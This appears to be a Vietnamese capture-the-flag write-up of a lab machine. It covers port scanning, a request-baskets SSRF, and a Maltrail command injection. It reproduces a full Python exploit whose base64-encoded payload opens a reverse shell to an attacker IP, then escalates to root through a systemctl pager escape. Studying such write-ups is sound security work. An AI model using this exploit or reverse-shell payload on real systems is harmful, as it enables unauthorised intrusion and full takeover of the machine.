## Task 1

Thực hiện scan 
```bash
sudo rustscan -a 10.129.229.26 -b 500 --ulimit 5000 -- -sC -sV
```



> 55555
## Task 2


Truy cập trang web, chúng ta thu được thông tin


> request-baskets
## Task 3


> 1.2.1
## Task 4

Tìm hiểu trên Google thì thu được kết quả

> CVE-2023-27163
## Task 5


Chúng ta lên sử dụng trang web để xem action là gì


Khi nhập một request thì sẽ được kết quả như trên, cấu hình lại 

Sau apply chúng ta truy cập lại vào để lấy giá trị của port 80 trong localhost


> Maltrail
## Task 6


Nghiên cứu trên internet thì tôi tìm được cách exploit liên quan https://github.com/spookier/Maltrail-v0.53-Exploit/blob/main/exploit.py

Đọc thêm về source này chúng ta có 
```python
import sys;
import os;
import base64;

def main():
	listening_IP = None
	listening_PORT = None
	target_URL = None

	if len(sys.argv) != 4:
		print("Error. Needs listening IP, PORT and target URL.")
		return(-1)
	
	listening_IP = sys.argv[1]
	listening_PORT = sys.argv[2]
	target_URL = sys.argv[3] + "/login"
	print("Running exploit on " + str(target_URL))
	curl_cmd(listening_IP, listening_PORT, target_URL)

def curl_cmd(my_ip, my_port, target_url):
	payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
	encoded_payload = base64.b64encode(payload.encode()).decode()  # encode the payload in Base64
	command = f"curl '{target_url}' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
	os.system(command)

if __name__ == "__main__":
  main()
```
Điểm mấu chốt nằm ở dấu **backtick** `` ` ``. Trong shell (bash/sh), bất kỳ chuỗi nào đặt trong backtick sẽ được **thực thi như command và kết quả được substitute vào** (command substitution — tương đương `$(...)`).

Sử dụng để khai thác
```python
python3 exploit.py 10.10.14.245 4444 http://10.129.229.26:55555/nuhx2pd
```

Chúng ta được reverse shell


> /login
## Task 7




> puma
## User Flag

## Task 9


Tìm bằng một lệnh find 
```bash
find / -perm -4000 -type f 2>/dev/null
```


Chưa thấy gì bất thường vậy còn `sudo -l` thì sao



> /usr/bin/systemctl
## Task 10


Chúng ta chỉ cần kiểm tra
```bash
systemctl --version
```

> systemd 245 (245.4-4ubuntu3.22)
## Task 11


> CVE-2023-26604
## Root Flag
**Cơ chế khai thác:**
Nếu sudoers cho phép user chạy một lệnh dạng:
```
user ALL=(root) NOPASSWD: /usr/bin/systemctl status <unit>
```
(hoặc tương tự `systemctl status`, `journalctl`, `less`, `more` — các lệnh dùng pager), thì khi output dài hơn 1 màn hình, `systemctl status` sẽ tự động mở **pager** (`less`) để hiển thị và pager này chạy **với quyền root** (kế thừa từ `systemctl` đang chạy as root qua sudo).

Vì `less` là chương trình tương tác, chúng ta có thể gõ `!` ngay trong pager để **escape ra shell**:
```bash
sudo systemctl status trail.service
```
Khi pager (`less`) mở ra, gõ:
```
!/bin/sh
```
→ chúng ta có shell với quyền root.

**Điều kiện cần:**
1. Sudoers cho phép chạy `systemctl status` (hoặc lệnh tương tự dùng `pager`) với quyền root, không giới hạn argument hoặc giới hạn lỏng lẻo.
2. systemd version < 247 (chưa patch — patch thêm biến môi trường `SYSTEMD_PAGERSECURE` buộc check để tắt tính năng escape của pager khi chạy privileged).


